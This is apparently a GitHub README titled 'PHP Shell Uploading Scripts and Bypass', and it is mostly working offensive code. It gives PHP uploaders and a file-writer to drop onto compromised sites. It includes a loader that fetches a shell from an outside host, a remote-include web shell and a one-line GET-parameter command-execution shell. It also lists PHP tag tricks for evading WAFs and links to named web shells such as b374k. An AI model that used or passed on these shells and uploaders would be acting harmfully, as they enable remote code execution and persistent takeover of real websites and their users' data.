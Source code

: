 # PHP Shell Uploading Scripts and Bypass
### Uploader
1. Normal File Uploader


	<?php 
		echo 'Uploader<br>';
        echo '<form action="" method="post" enctype="multipart/form-data">';
        echo '<input type="file" name="file" size="50"><input name="_upl" type="submit" value="Upload"></form>';
        if( $_POST['_upl'] == "Upload" ) {
        	if(copy($_FILES['file']['tmp_name'], $_FILES['file']['name'])) {
            	echo '<b>Success</b><br><br>';
            }else {
            	echo '<b>Failed</b><br><br>'; 
            }
        }
    ?>

2. CSRF File Uploader

>This uploader bypasses content length if the normal file uploader code is too long. To access this, open the file where you save it and do a CSRF with POST file value of `file`.

	
    <?php
    	copy($_FILES['file']['tmp_name'], $_FILES['file']['name']);
    ?>
> This saves your file to the same directory of the uploader.    
3. File Get Contents


    <?php
    	file_put_contents(file_get_contents('https://somesite.com/shell.txt'),'shell.php');
    ?>
> Will work if `allow_url_fopen` is on. Upload this as up.php then open it. It will automatically generate a file named shell.php on the same directory.

4. File Writer ([link](https://github.com/alita-ido/PHP-File-Writer))
>If you managed to make a file uploader but it doesn't work, maybe the site does not allow uploading. Some sites don't enable upload functions, hence `move_uploaded_files` and `copy_uploaded_files` will not work. File writer works by using different command (`fwrite`).


	<?php
    	$a = $_POST['code'];
        $file = fopen($_POST['file'],'w');
        fwrite($file,$a);
        fclose($file);
	?>
    <center>
      <form method="post" id="form">
        <h2>File Writer</h2>
        File Name<br><input type="text" name="file" placeholder="shell.php"><br>
        Shell Code<br><textarea name="code" form="form" placeholder="Paste your shell here"></textarea><br>
        <input type="submit" value="Write">
      </form>
    </center>
If all of the above fails or is blocked by WAF, try using other php notations.

a. `<?php echo 'sample'; ?>` - normal one

b. `<? echo 'sample'; ?>` - will work if short_open_tag is enabled

c. `<% echo 'sample'; %>` - PHP < 7.0.0

d. `<script language="php"> echo 'sample'; </script>` - PHP < 7.0.0

### Shell Codes I use
1. [b374k](http://www.topshellv.com/shell/b374k-shell)
> This shell is large >900kb. The size is large which gives room to more functionality. But more functionality means more functions used, and more functions used results to more `DISABLE_FUNCTIONS` which might result again to error in shell or blocked by WAF.

2. [RBBD priv8 shell](https://github.com/iamhex/Priv8-Shell-v3)
> I think this is a "so called" bypass shell.It is light weight, around ~70kb. I think it is based on wso.php web shell

3. [b374k-mini](https://github.com/The404Hacking/b374k-mini/)
> File size is ~14kb and bypasses as well some WAFs while uploading

4. RCE shell
> I use this when we need to  upload a shell with very small file size

	<?=`$_GET[1]`?>
> This is a shorthand notation for `<?php echo shell_exec($_GET['1']);?>`. But note that this only works if `shell_exec` is not in the `DISABLE_FUNCTIONS` in phpinfo.

5. Include
> Used for bypassing file size as well due to its small size.

	<?php include('https://somewebshell.com/shell.txt');?>
    
> This will work only if `allow_url_include` is not in the `DISABLE_FUNCTIONS` in phpinfo.
